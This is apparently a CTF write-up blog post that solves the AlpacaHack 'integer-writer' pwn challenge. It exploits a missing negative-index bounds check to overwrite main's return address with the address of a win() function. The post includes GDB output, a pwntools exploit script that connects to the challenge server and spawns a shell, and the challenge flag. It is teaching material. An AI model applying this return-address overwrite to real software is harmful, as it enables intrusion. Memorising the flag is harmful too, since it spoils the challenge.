

**Hello guys welcome back** 

In this blog post, I’m going to show you how I solved the pwn challenge from the daily AlpacaHack series. I’m still learning and improving skills, so I’ll explain everything as clearly as I can while sharing the thought process behind each step. This pwn chall made me dizzy 😭

## Description



### Translation

```text
Wait, if someone accidentally rewrites the return address, they could launch a shell. That's pretty dangerous when you think about it calmly, right? Gotta be careful...
Hints for Beginners

    This problem is in the Pwn category, meaning it's about Pwnable (Binary Exploitation).
    It's rated Hard. It's more difficult than the previous Easy and Medium levels, and especially for those who first encountered CTFs through Daily AlpacaHack, solving it independently will likely be challenging.
    Therefore, if you get stuck, we recommend using AI tools as needed to find clues for the solution.
    Pwn can seem intimidating to beginners, but it's an exciting category where you can enjoy exploring low-level computer behavior, so please give it a try.
    Even if you can't solve it, be sure to review the solutions (called writeups) shared by other players after the event ends.
The writeup tab will appear in the tab list below 24 hours after the challenge is published.
The challenge files provide a C source code file, main.c, and its compiled binary, chal.
This program accepts input from the player: pos and val.
    The goal this time is to execute the win function in the remote environment and launch a shell.
    Sending the appropriate pos and val values will call the win function, so find those values.
    Connect to the remote environment using the nc command.
    Once you gain a shell, read flag.txt and retrieve the flag.
```

### Understanding the Challenge

First, let's download and examine the challenge files:

```bash
┌──(chjwoo㉿hackbox)-[~/…/alpacahack/pwn/integer-writer/integer-writer]
└─$ ls     
chal  main.c

```

We get two files:

- `main.c` - The source code
- `chal` - The compiled binary

Here’s the source code we’ll be working with:

```c
// gcc -o chal main.c -fno-pie -no-pie
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void win() {
    execve("/bin/sh", NULL, NULL);
}

int main(void) {
    int integers[100], pos;

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    printf("pos > ");
    scanf("%d", &pos);

    if (pos >= 100) {
        puts("You're a hacker!");
        return 1;
    }

    printf("val > ");
    scanf("%d", &integers[pos]);

    return 0;
}

```

- There's a `win()` function that spawns a shell (`/bin/sh`) - this is our goal!
- The main function:
    - Declares an array `integers[100]` (100 integers)
    - Asks for position (`pos`) and value (`val`)
    - Has a check: `if (pos >= 100)` - blocks large positive values
    - Writes our value to `integers[pos]`

This leads to a classic out-of-bounds write vulnerability. Although the program prevents writing *after* the array, it doesn’t stop us from writing before it.

```c
if (pos >= 100) {
    puts("You're a hacker!");
    return 1;
}
scanf("%d", &integers[pos]);

```

The check only blocks `pos >= 100`, but **doesn't check for negative values!**

Valid inputs:

- `pos = 0‒99` → valid
- `pos ≥ 100` → blocked
- `pos < 0` → **bypasses the check and writes outside the array!**

Writing outside the array means we can overwrite things like the saved frame pointer or even better, the **return address**.

## Solution

We need to know where the `win()` function address is located in memory. Let's use GDB:

```bash
┌──(chjwoo㉿hackbox)-[~/…/alpacahack/pwn/integer-writer/integer-writer]
└─$ gdb-gef chal                                  
Reading symbols from chal...
(No debugging symbols found in chal)
Error while writing index for `/mnt/hgfs/cybersec/ctfs/alpacahack/pwn/integer-writer/integer-writer/chal': No debugging symbols
GEF for linux ready, type `gef' to start, `gef config' to configure
93 commands loaded and 5 functions added for GDB 16.3 in 0.01ms using Python engine 3.13
gef➤  info function win
All functions matching regular expression "win":

Non-debugging symbols:
0x00000000004011d6  win
gef➤  

```

**Address of `win()` = `0x4011d6`**

Since the binary is compiled with `-fno-pie`, this address is **fixed** and won't change between executions.

Disassemble the main()

```bash
gef➤  disassemble main
Dump of assembler code for function main:
   0x00000000004011f5 <+0>:     endbr64
   0x00000000004011f9 <+4>:     push   rbp
   0x00000000004011fa <+5>:     mov    rbp,rsp
   0x00000000004011fd <+8>:     sub    rsp,0x1b0
   0x0000000000401204 <+15>:    mov    rax,QWORD PTR fs:0x28
   0x000000000040120d <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401211 <+28>:    xor    eax,eax
   0x0000000000401213 <+30>:    mov    rax,QWORD PTR [rip+0x2e36]        # 0x404050 <stdin@GLIBC_2.2.5>
   0x000000000040121a <+37>:    mov    esi,0x0
   0x000000000040121f <+42>:    mov    rdi,rax
   0x0000000000401222 <+45>:    call   0x4010b0 <setbuf@plt>
   0x0000000000401227 <+50>:    mov    rax,QWORD PTR [rip+0x2e12]        # 0x404040 <stdout@GLIBC_2.2.5>
   0x000000000040122e <+57>:    mov    esi,0x0
   0x0000000000401233 <+62>:    mov    rdi,rax
   0x0000000000401236 <+65>:    call   0x4010b0 <setbuf@plt>
   0x000000000040123b <+70>:    mov    rax,QWORD PTR [rip+0x2e1e]        # 0x404060 <stderr@GLIBC_2.2.5>
   0x0000000000401242 <+77>:    mov    esi,0x0
   0x0000000000401247 <+82>:    mov    rdi,rax
   0x000000000040124a <+85>:    call   0x4010b0 <setbuf@plt>
   0x000000000040124f <+90>:    mov    edi,0x40200c
   0x0000000000401254 <+95>:    mov    eax,0x0
   0x0000000000401259 <+100>:   call   0x4010c0 <printf@plt>
   0x000000000040125e <+105>:   lea    rax,[rbp-0x1a4]
   0x0000000000401265 <+112>:   mov    rsi,rax
   0x0000000000401268 <+115>:   mov    edi,0x402013
   0x000000000040126d <+120>:   mov    eax,0x0
   0x0000000000401272 <+125>:   call   0x4010e0 <__isoc99_scanf@plt>
   0x0000000000401277 <+130>:   mov    eax,DWORD PTR [rbp-0x1a4]
   0x000000000040127d <+136>:   cmp    eax,0x63
   0x0000000000401280 <+139>:   jle    0x401293 <main+158>
   0x0000000000401282 <+141>:   mov    edi,0x402016
   0x0000000000401287 <+146>:   call   0x401090 <puts@plt>
   0x000000000040128c <+151>:   mov    eax,0x1
   0x0000000000401291 <+156>:   jmp    0x4012cf <main+218>
   0x0000000000401293 <+158>:   mov    edi,0x402027
   0x0000000000401298 <+163>:   mov    eax,0x0
   0x000000000040129d <+168>:   call   0x4010c0 <printf@plt>
   0x00000000004012a2 <+173>:   mov    eax,DWORD PTR [rbp-0x1a4]
   0x00000000004012a8 <+179>:   lea    rdx,[rbp-0x1a0]
   0x00000000004012af <+186>:   cdqe
   0x00000000004012b1 <+188>:   shl    rax,0x2
   0x00000000004012b5 <+192>:   add    rax,rdx
   0x00000000004012b8 <+195>:   mov    rsi,rax
   0x00000000004012bb <+198>:   mov    edi,0x402013
   0x00000000004012c0 <+203>:   mov    eax,0x0
   0x00000000004012c5 <+208>:   call   0x4010e0 <__isoc99_scanf@plt>
   0x00000000004012ca <+213>:   mov    eax,0x0
   0x00000000004012cf <+218>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004012d3 <+222>:   sub    rdx,QWORD PTR fs:0x28
   0x00000000004012dc <+231>:   je     0x4012e3 <main+238>
   0x00000000004012de <+233>:   call   0x4010a0 <__stack_chk_fail@plt>
   0x00000000004012e3 <+238>:   leave
   0x00000000004012e4 <+239>:   ret
End of assembler dump.

```

Look for the instruction **after** `scanf` for `pos`, but **before** `scanf` for `val`. In our case, it's at `0x4012a2`. Set the breakpoint and run it.

```bash
gef➤  b *0x4012a2
Breakpoint 1 at 0x4012a2
gef➤  run
Starting program: /mnt/hgfs/cybersec/ctfs/alpacahack/pwn/integer-writer/integer-writer/chal 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
pos > 0

```

Now we inspect the current stack frame:

```bash
gef➤  info frame
Stack level 0, frame at 0x7fffffffdbf0:
 rip = 0x4012a2 in main; saved rip = 0x7ffff7dd1ca8
 Arglist at 0x7fffffffdbe0, args: 
 Locals at 0x7fffffffdbe0, Previous frame's sp is 0x7fffffffdbf0
 Saved registers:
  rbp at 0x7fffffffdbe0, rip at 0x7fffffffdbe8
```

Key findings:

- Saved RBP location: `0x7fffffffdbe0`
- Return address location: `0x7fffffffdbe8`← **This is our target!**

The return address is what we want to overwrite. When `main()` finishes and executes `ret`, it will jump to this address. If we change it to point to `win()`, we get a shell!

Next, let's identify where our `integers[]` array lives on the stack. From the assembly, we know that:

```asm
lea rax, [rbp-0x1a0]
```

This means:

```
integers[0] = RBP - 0x1a0
            = 0x7fffffffdbe0 - 0x1a0
            = 0x7fffffffda40  (example)

```

Now we calculate the offset between:

- the start of the array (`integers[0]`)
- and the saved return address (`saved RIP`)

```
Return address location: 0x7fffffffdbe8
integers[0] location:    0x7fffffffda40

Distance = 0x7fffffffdbe8 - 0x7fffffffda40
         = 0x1a8 bytes
         = 424 bytes
         = 424 / 4 = 106 integers

```

So **`integers[106]`** points to the return address! This means that if we could write to index **106**, we could directly overwrite the return address. But we can't use index 106 (it's >= 100 and will be **blocked**). However, through testing with GDB, I discovered that **`integers[-6]`** also allows us to control the instruction pointer.

To verify the offset, I tried crashing the program with a known value:

```
gef➤  run
pos > -6
val > 1094795585

gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x0000000041414141 in ?? ()

```

**Success!** The program crashed at `0x41414141` (which is `1094795585` in decimal), confirming we can control the execution flow!

Now instead of `0x41414141`, we use the address of `win()`:

```
0x4011d6 (hex) = 4198870 (decimal)

```

We need decimal because `scanf("%d", ...)` expects decimal input.

```
gef➤  run
Starting program: /mnt/hgfs/cybersec/ctfs/alpacahack/pwn/integer-writer/integer-writer/chal 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
pos > -6
val > 4198870
process 3025 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
$ whoami
[Detaching after vfork from child process 3028]
chjwoo

```

### **pwned!**

Here's the final exploit script:

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./chal')

win_addr = elf.symbols['win']  # 0x4011d6

p = remote('34.170.146.252', 51272)

p.sendlineafter(b'pos > ', b'-6')
p.sendlineafter(b'val > ', str(win_addr).encode())

p.interactive()

```

Run the exploit:

```bash
┌──(chjwoo㉿hackbox)-[~/…/alpacahack/pwn/integer-writer/integer-writer]
└─$ python solver.py
[*] '/mnt/hgfs/cybersec/ctfs/alpacahack/pwn/integer-writer/integer-writer/chal'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Opening connection to 34.170.146.252 on port 51272: Done
[*] Switching to interactive mode
$ ls
flag.txt
run
$ cat flag.txt
Alpaca{D0_y0u_th1nk_th3_st4ck_gr0ws_upw4rd_0r_d0wnw4rd?}
$  
```

## Flag

`Alpaca{D0_y0u_th1nk_th3_st4ck_gr0ws_upw4rd_0r_d0wnw4rd?}`